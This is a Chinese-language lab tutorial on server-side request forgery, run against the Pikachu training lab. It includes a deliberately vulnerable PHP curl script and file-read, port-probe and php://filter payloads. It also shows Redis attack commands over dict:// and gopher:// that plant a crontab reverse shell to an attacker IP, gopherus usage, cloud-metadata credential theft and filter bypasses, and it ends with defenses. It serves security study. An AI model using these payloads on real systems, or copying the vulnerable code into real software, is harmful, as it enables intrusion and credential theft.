






> Environment: PHP 7.3.4 + MySQL 5.7.26
> Lab: Pikachu

## 1.0 SSRF (服务端请求伪造)

### 1.1 基础

- 客户端请求:

  由客户端设备(个人计算机, 手机, 平板电脑) 或软件 (浏览器, 各种APP) 发出的请求, 以获取指定的网页, 图片, 视频或其他资源, 例: 用户在浏览器输入URL或点击链接时, 浏览器会自动发起HTTP请求, 请求服务器返回指定资源.

- 服务端请求

  服务器应用程序或服务会提供功能接口, 比如API接口, 用于与其他服务进行数据交互, 这些由服务器之间的请求称之为服务端请求.

### 1.2 什么是SSRF

**SSRF**(Server-Side Request Forgery, 服务端请求伪造): 服务器在**没有对目标地址做有效过滤**的情况下, 替攻击者向任意地址发起请求, 攻击者相当于把服务器当成了"跳板机", 攻击者使用受害者服务器应用程序作为代理, 让请求拥有服务器特征.

**SSRF 漏洞核心标准:**

- 请求是否由服务器发起

- 如何判断请求是否由服务器发起?
  - 有回显: 是否可以探测到内部服务?
  - 无回显: 由访问IP判断

> 以下 SSRF 攻击链逻辑图解

---



---

### 1.3 漏洞成因

由于服务端提供从其他服务器应用获取数据的功能, 但又未对目标地址做严格过滤与限制, 导致攻击者可以传入任意地址让后端服务器对其发起请求, 并返回请求数据, 例: 从指定URL获取网页文本内容, 加载指定地址的图片, 下载等...

---



---

### 1.4 漏洞危害

- 窃取数据: 攻击者可伪造请求以访问服务器内部网络或云环境中的其他服务或资源
- 攻击第三方系统: 攻击者可伪造请求攻击第三方系统, 例: 访问其他组织敏感数据或执行拒绝服务攻击
- 内部端口扫描: 攻击者可伪造请求扫描服务器内部端口和服务
- 获取指纹: 通过获取 web 应用收集指纹信息

| 危害                    | 说明                         | 典型 payload 协议        |
| ----------------------- | ---------------------------- | ------------------------ |
| 读服务器本地文件        | 读 `/etc/passwd`、`win.ini`  | `file://`                |
| 内网端口扫描 / 服务探测 | 扫存活主机、探测 Redis/MySQL | `http://`、`dict://`     |
| 攻击内网未授权服务      | 打 Redis 写 webshell → RCE   | `gopher://`              |
| 云凭据窃取              | 偷 AWS/阿里云 IAM 临时凭据   | `http://169.254.169.254` |

> 协议就是 SSRF 的武器库: `file` 读文件、`dict` 探服务、`gopher` 发任意 TCP 字节流(万能)

---

### 1.5 漏洞场景

SSRF 漏洞一般存在于 Web 应用程序中, 应用程序接收来自用户的输入, 将请求转发至其他服务器, 攻击者在输入中注入恶意URL, 使服务器发起未授权请求, 访问敏感内部资源.

- 文件上传功能
- 图片处理功能
- URL重定向
- API调用

---

### 1.6 常见危险函数

| 语言   | 危险函数                                                  |
| ------ | --------------------------------------------------------- |
| PHP    | `curl()`、`file_get_contents()`、`fsockopen()`、`fopen()` |
| Python | `requests()`、`urllib()`                                  |
| Java   | `URL.openConnection()`、`HttpClient()`                    |

| 函数                | 作用                                   |
| ------------------- | -------------------------------------- |
| curl_exec()         | 执行cURL会话                           |
| file_get_contents() | 获取整个文件                           |
| fsockopen()         | 打开一个网络连接或者一个Unix套接字连接 |

| 协议      | 作用                                                         |
| --------- | ------------------------------------------------------------ |
| file://   | 查看文件                                                     |
| dict://   | 探测端口                                                     |
| gopher:// | 发送任意 TCP 原始字节流<br>可打 Redis/MySQL/FastCGI 写 webshell, 进而 RCE |

---

### 1.7 漏洞分类

- 有回显SSRF: 内网响应直接返回给攻击者
- 无回显SSRF(Blind): 无回显, 需要 DNSLog / 时间差等侧信道确认和利用

---

### 2.0 漏洞利用

#### 2.1 Pass-01-本地编写测试

`ssrf1.php`

```php
<?php
function curl($url){
    $ch = curl_init();
    // 设置URL及选项
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    // 抓取URL并传递给浏览器
    curl_exec($ch);
    // 关闭cURL资源, 并释放系统资源
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
?>
```

- http请求类(确认漏洞存在)

  

  > 通过Payload`?url=http://www.baidu.com`成功跳转链接

- 本地文件读取(file)

  ```php
  ?url=file:///c:/windows/win.ini # Windows
  ?url=file:///etc/passwd         # Linux
  ```

  

  > 成功读取到win.ini内容

- 探测内网服务(http/dict)

  ```php
  ?url=http://127.0.0.1:81/            # 访问自己，验证内网可达
  ?url=dict://127.0.0.1:6379/info      # 探测 Redis 未授权
  ```
  > 扫描思路: 通过响应差异 / 时间差判断端口是否开放 

---

#### 2.2 靶场实验

- 端口探测(curl)

  ```php
  ?url=dict://127.0.0.1:3306
  ```

  

  > 探测到mysql端口开放

- 读取本机hosts文件(curl)

  ```php
  ?url=file:///c:/windows/system32/drivers/etc/hosts
  ```

  

- 文件读取(file_get_contents)

  ```php
  ?file=file://c:/windows/system32/drivers/etc/hosts
  ```

- 通过php伪协议读取源码(file_get_contents)

  ```php
  ?file=php://filter/read=convert.base64-encode/resource=ssrf.php
  ```

  

  > 解码后与源码一致, 成功读取

---

#### 2.3 云平台 SSRF 漏洞

- 云平台服务器从物理层隔绝内网服务, 如何打出危害?

  通过`云元数据` `[meta data]`打出危害.

  01 各云服务商均拥有服务器`云元数据地址`

  02 通过地址获取元数据密钥等敏感信息

---

### 3.0 漏洞利用进阶

#### 3.1 内网应用攻击

##### 01 通过`dict://` 协议攻击内网`Redis`

- Redis端口若未开启认证, 可导致任意用户利用ssrf漏洞攻击内网未授权Redis, 读取Redis数据
- 若运行Redis的用户是root, 攻击者可写定时任务进行`反弹shell`

探测内网服务:

- Ubuntu作为受害者服务器, 使用包含 SSRF 漏洞的靶场进行`dict://`

  ```http
  ?url=dict://10.0.0.10:6379/info
  ```

  

---

##### 02 写定时任务

1. 定时任务通过`crond`完成, 是linux的定时执行工具, 不同系统定时任务目录如下:

   | 系统   | 目录                      |
   | ------ | ------------------------- |
   | CentOS | /var/spool/cron/          |
   | Ubuntu | /var/spool/cron/crontabs/ |

2. 可根据服务器存在的文件判断服务器信息

   | 系统   | 文件             |
   | ------ | ---------------- |
   | CentOS | /etc/os-release  |
   | Ubuntu | /etc/lsb-release |

3. 使用攻击主机监听一个端口, 用来接收受害主机执行定时任务的反弹shell

   - 攻击机和目标机必须在同一环境:
     - 本地靶场 → 本地kali攻击机
     - 公网服务器目标 → 公网服务器攻击机

   ```zsh
   nc -lvnp 1234
   ```

   

   > 开启监听...

4. 在存在漏洞的网站依次执行如下指令:

   ```http
   # 清空数据库(慎用)
   dict://10.0.0.10:6379/flushall
   # 设置工作目录
   dict://10.0.0.10:6379/config set dir /var/spool/cron/crontabs/
   # 设置保存的文件名
   dict://10.0.0.10:6379/config set dbfilename root
   # 设置变量x, 若在本地kali监听, 下方ip需修改为kali
   dict://10.0.0.10:6379/set x "\n\n*/1 * * * * bash -i &> /dev/tcp/10.0.0.20/1234 0>&1\n\n"
   # 这里 \n 越多越好(防止换行失败导致反弹shell失败)
   # 保存
   dict://10.0.0.10:6379/save
   ```

---

##### 03 SSH公钥写入

SSH 密钥对, 一把公钥, 一把私钥, 公钥存放在 SSH 服务器, 私钥个人保存

- 公钥登录: `public key 认证`

- 原理:

  1. 用户将公钥存储在远程服务器

  2. 登录时远程服务器向用户发送一段随机字符串

  3. 私钥加密字符串, 发送给远程主机

  4. 远程主机使用公钥解密, 解密成功 → 登录

  > public key 认证图解

  

**漏洞原理:**

- Redis 服务未授权可以写入文件
- 将公钥写入服务器即可实现免密登录



---

##### 04 gopher协议攻击内网应用

`gopher`可发送各种格式的请求包, 攻击内网FTP, Telnet, Redis, Memcache, 也可以进行GET, POST请求, 还可以攻击内网未授权MySQL

`gopher` 协议默认端口70, 所以需要指定web端口, 且需要指定方法, 数据需要进行URL, 回车换行使用`%0d` `%0a`

**基本协议格式:**

```http
URL:gopher://<host>:<port>/<gopher-path>TCP数据流
```

gopherus 运用

在 SSRF 易受攻击的站点上生成 gopher 负载以利用 SSRF 并获得 RCE

```zsh
# 查看工具帮助以及受支持的攻击类型
uv run gopherus.py -h
# 攻击redis
uv run gopherus.py --exploit redis
#   [1] ReverseShell - 反弹 Shell 到攻击机
#   [2] PHPShell     - 写入 PHP WebShell
# 1. 配置监听地址 100.100.103.85(redis服务器地址)
# 2. 配置 Crontab 目录
# 3. 自动生成利用链接 gopher://xxx...[相当于简化版定时任务]
# 4. 攻击机开启监听
nc -lvp 1234
# 5. 将利用链接URL 编码至SSRF漏洞中
# 6. RCE
```

---

### 4.0 绕过

| 绕过类型   | 案例                                               |
| ---------- | -------------------------------------------------- |
| 302跳转    | `sudo.cc`服务, 访问服务时, 自动重定向到`127.0.0.1` |
| `@`绕过    | `xx@host`==`host`, 只解析`@`之后的内容             |
| IP进制编码 | `127.0.0.1`==`0x7f.0x0.0x0.0x1(Hex)`...            |
| 特殊数字   | 如: 1②7.0.0.1                                      |
| 中文句号   | `。`代替`.`                                        |
| 0省略      | `127.0.0.1`==`127.1`                               |
| 特殊0      | 在Windows中0代表0.0.0.0 ; Linux中0代表127.0.0.1    |

> 以上绕过现代系统大多数均已修复, 仅作了解

---

### 5.0 防御

| 防御措施                            | 防什么                |
| ----------------------------------- | --------------------- |
| 协议白名单(只放 http/https)         | file/dict/gopher      |
| 解析后校验 IP(禁私网/回环/链路本地) | 直连内网              |
| 禁用 `CURLOPT_FOLLOWLOCATION`       | 302 跳转绕过          |
| `CURLOPT_RESOLVE` 锁定 IP           | DNS Rebinding（关键） |
| 出口防火墙 / 网络隔离               | 纵深兜底              |